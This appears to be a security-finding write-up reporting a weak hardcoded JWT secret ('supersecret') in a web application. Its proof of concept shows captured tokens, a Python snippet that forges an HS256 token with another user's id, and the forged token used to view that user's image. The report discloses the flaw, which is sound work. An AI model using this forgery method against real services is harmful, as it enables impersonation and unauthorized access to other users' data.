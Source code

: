 # Description


- **Type:** Broken Authentication / JWT Secret Disclosure  
- **Location:** All JWT-protected endpoints  
- **Severity:** 🔴 High  
- **Impact:** Token forgery, role escalation, account impersonation  

The application uses **JSON Web Tokens (JWT)** for authentication and authorization, signed with the `HS256` algorithm.  
During testing, it was discovered that the JWT secret is set to a **weak hardcoded value**: supersecret  

![jwt](../images/jwt.jpg)  

This secret is trivially guessable via brute-force or dictionary attacks using tools like `jwt-cracker`, `jwt_tool`, or `hashcat`.  

By signing arbitrary tokens with the known secret, it is possible to forge valid JWTs and escalate privileges  


## PoC 

For that PoC I created 2 different account with given JWTs:

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzQyLCJsb2dpbiI6Inlob3JtIiwibWFpbCI6IjEyM0AxMjMuY29tIiwicm9sZSI6InVzZXIiLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.  2W9Jjpmbh8XS8QmfJRJX5tAb_LoIiiWFRfkprJXj6W4

When decoded:

```
{
  "id": 342,
  "login": "yhorm",
  "mail": "123@123.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

And second 

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzYwLCJsb2dpbiI6IlBPT0MiLCJtYWlsIjoiMzFAMzIyLmNvbSIsInJvbGUiOiJ1c2VyIiwiaXAiOiIxNDYuMTU4LjY2LjIwOSJ9.v0FPpLfWFAqPO7iskaHPckFLmqubk3Gep00xx_C1L-0  

```json
{
  "id": 360,
  "login": "POOC",
  "mail": "31@322.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

With that tokens we will try to access /images.php?id=13921 (POOC user image) which is not accesible to 'yhorm' user.  
![jwt_poc](../images/jwt_poc.jpg)  

After testing it was clear that we can access others image only by changing **id** value.  
```python
import jwt

secret = "supersecret"

payload = {
    "id": 360, #id for POOC user
    "login": "yhorm",
    "role": "user",
    "mail": "123@123.com",
    "ip": "146.158.66.209"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
New jwt token:  
> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MzYwLCJsb2dpbiI6Inlob3JtIiwicm9sZSI6InVzZXIiLCJtYWlsIjoiMTIzQDEyMy5jb20iLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.0ej8hhRWs6vqNhRNQ4w-7G2xTSEqixOzFPauTyIxY6c

![jwttt](..images/jwt_final.jpg)

Successfully got access to other account image only by changing id value. 

